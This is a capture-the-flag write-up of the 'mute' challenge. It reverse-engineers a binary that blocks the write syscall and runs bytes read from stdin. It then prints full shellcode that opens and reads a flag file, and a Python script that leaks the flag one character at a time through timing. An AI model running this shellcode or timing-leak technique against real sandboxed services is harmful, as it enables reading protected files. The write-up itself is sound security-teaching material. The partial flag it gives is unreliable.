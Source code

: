 # Writeup
The challenge gives the mute executable and that's all.
Doing a reverse engineer with IDA, we note two things:

1- There is a function dropSyscalls with drop every syscalls, except 0x0, 0x2, 0x3, 0x4, 0x5, 0x6, 0x7, 0x8, 0x9, 0xa, 0xb, 0xc and 0x3b. 
This means that the syscall 0x1 (write) is forbiden and we can not write to stdout.

![mute2](https://cloud.githubusercontent.com/assets/1280700/25589772/45f41628-2e84-11e7-98f7-7d6f808be792.png)

2- The executable just reads some bytes from stdin (lines 15-20) and executs it (line 21).

![mute1](https://cloud.githubusercontent.com/assets/1280700/25589768/42ff307e-2e84-11e7-81ac-f932461b2bd7.png)

After seeing that, the first thing that comes to my mind was to send a shellcode with reads the flag 
(I assumed it was in /home/mute/flag) and do a time-based blind attack. It tries to guess a character position of the flag. If
it is correct, them take some time (looping) before exiting. If it is incorrect, it just exits imediatelly. Actually, the exit
syscall is forbidden, but it does not metter because we are only interested in the timing.

```assembly
section .text
    global _start

_start:
;/home/mute/flag
mov r8, 0x67616c662f6574
push r8
mov r8, 0x756d2f656d6f682f
push r8

; syscall open file
mov rdi, rsp ; pop path value
xor rax, rax
add al, 2
xor rsi, rsi ; set O_RDONLY flag
syscall
  
; syscall read file
sub sp, 0xfff
lea rsi, [rsp]
mov rdi, rax
xor rdx, rdx
mov dx, 0xfff; size to read
xor rax, rax
syscall
  
cmp byte [rsi + 1], 0x69
jne exit

;guessed correct? sleep
mov ecx,0
loop1:

inc ecx
cmp ecx, 0xffffffff
jne loop1

mov ecx,0
loop2:

inc ecx
cmp ecx, 0xffffffff
jne loop2

; syscall exit
exit:
xor rax, rax
add al, 60
syscall
```

Taking the bytes of this shellcode, I made a python script to do this blind attack. the script sends the same bytes of 
the shellcode above, but replacing the corresponding guessing position and character (cmp byte [rsi + 1], 0x69).
```python
from pwn import *
import string
from datetime import datetime
import os

context.log_level = 'error'

shell = "\\x49\\xb8\\x74\\x65\\x2f\\x66\\x6c\\x61\\x67\\x00\\x41\\x50\\x49\\xb8\\x2f\\x68\\x6f\\x6d\\x65\\x2f\\x6d\\x75\\x41\\x50\\x48\\x89\\xe7\\x48\\x31\\xc0\\x04\\x02\\x48\\x31\\xf6\\x0f\\x05\\x66\\x81\\xec\\xff\\x0f\\x48\\x8d\\x34\\x24\\x48\\x89\\xc7\\x48\\x31\\xd2\\x66\\xba\\xff\\x0f\\x48\\x31\\xc0\\x0f\\x05\\x80\\x7e\\x01\\x68\\x75\\x18\\xb9\\x00\\x00\\x00\\x00\\xff\\xc1\\x83\\xf9\\xff\\x75\\xf9\\xb9\\x00\\x00\\x00\\x00\\xff\\xc1\\x83\\xf9\\xff\\x75\\xf9\\x48\\x31\\xc0\\x04\\x3c\\x0f\\x05"

flag = ""
i = 1

while True:
    for c in string.printable:
        try:
            current_shell = shell.replace("\\x01\\x68", "\\x" + chr(i).encode("hex") + "\\x" + c.encode("hex"))
            start = datetime.now()
            os.popen("python -c 'print(\"" + current_shell + "\" + \"\\x00\"*4009)' | ./mute") # nc mute_9c1e11b344369be9b6ae0caeec20feb8.quals.shallweplayaga.me 443
            total = (datetime.now() - start).seconds
            if total >= 2:
                i += 1
                flag += c
                print("FOUND!!!!!")
                print(flag)
        except:
            pass
```

Locally it worked fine! Now it was time to try remotely. However, it was missing just about 10 minutes for the end of the competition.
Although I did not submit the flag in time, I consider that I solved this challenge. I took a look at this challenge just 2 
hours before the end of the competition and when I was with about half of the flag, the time went over and the server cames 
down :(
**The flag is: I tXXXXXXXXat 6qd do was, I'd DXXXXXX**

where **X** are the missing characters. It may have some wrong characters because of wrong estimation of time, but nothing that a 
double check could solve.

